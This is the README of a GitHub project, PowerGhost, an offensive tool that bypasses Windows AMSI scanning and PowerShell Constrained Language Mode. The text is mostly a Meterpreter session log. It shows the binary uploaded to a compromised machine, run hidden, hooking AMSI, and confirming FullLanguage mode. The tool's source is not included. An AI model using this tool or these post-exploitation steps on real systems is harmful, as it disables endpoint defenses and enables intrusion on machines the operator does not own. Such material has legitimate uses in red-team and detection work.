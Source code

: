 # PowerGhost
A custom run space to bypass AMSI and Constrained Language mode in PowerShell.

<img src="https://github.com/plackyhacker/PowerGhost/blob/main/pg_demo.gif?raw=true" alt="Demo "/>

## Example running in Meterpreter

```
meterpreter > upload PowerGhost64.exe
[*] uploading  : PowerGhost64.exe -> PowerGhost64.exe
[*] Uploaded 6.00 KiB of 6.00 KiB (100.0%): PowerGhost64.exe -> PowerGhost64.exe
[*] uploaded   : PowerGhost64.exe -> PowerGhost64.exe
meterpreter > execute -H -i -f "PowerGhost64.exe"
Process 5276 created.
Channel 8 created.

PowerGhost by PlackyHacker
--------------------------

Type 'exit' to close.

[+] Hooking AMSI for bypass...
PG C:\Users\Placky> $ExecutionContext.SessionState.LanguageMode
FullLanguage
PG C:\Users\Placky>
```
